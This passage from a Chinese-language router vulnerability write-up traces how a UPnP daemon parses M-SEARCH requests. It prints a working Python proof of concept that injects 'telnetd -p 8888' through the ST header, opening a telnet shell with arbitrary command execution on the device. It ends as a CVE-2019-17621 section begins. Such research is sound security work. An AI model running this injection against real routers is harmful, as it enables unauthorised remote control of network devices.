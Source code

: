    
  
在sub_415C9C中也可以看到，把socket绑定到了1900端口：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4DOJiaZpW3FCnncCM0Htc1r16u9zqb3Bpr8GzPASLYeRibzM9ib23ooo5w/640?wx_fmt=png "")  
  
   
  
再回到有对ST字段进行匹配操作的sub_41BFDC函数，可以看到首先需要绕过下面圈出的判断，这里的1.1显然就是HTTP版本：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4NWKk7ia77V5USiaAHFYILVxm5egHzauOa6fmqWP9VNtYGsicAwTvhRCsg/640?wx_fmt=png "")  
  
   
  
综上，从upnp二进制文件中可以看到，我们得是M-SEARCH请求方式，故：报文头应为M-SEARCH * HTTP/1.1。  
  
   
  
**POC：**  
```
# python3
from socket import *
from os import *
from time import *
 
payload = b'M-SEARCH * HTTP/1.1\r\n'
payload += b'HOST:localhost:1900\r\n'
payload += b'ST:urn:device:;telnetd -p 8888\r\n\r\n'
 
s = socket(AF_INET, SOCK_DGRAM, 0)
s.sendto(payload, ("192.168.10.1", 1900))
s.close()
 
sleep(1)
system("telnet 192.168.10.1 8888")
```  
  
  
最终成功开启了8888端口，利用telnet远程登陆到了路由器固件中，可执行任意命令：  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4J81muz0uFV009WIUAtrNmG8MxssupibBwVjlZHwXxjeCRxwdBHzgyvg/640?wx_fmt=png "")  
  
   
  
通过ps命令查看进程，可以发现telnetd -p 8888命令的确已经被成功执行：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4W0mHyiaLtic9PxnP8MicicrhXDwtkUk1Xhl7ibUtB85g9bouezZCu4VLHXA/640?wx_fmt=png "")  
##   
##   
  
三  
  
  
**CVE-2019-17621**  
  
  
漏洞信息：CVE-2019-17621（  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17621  
）  
  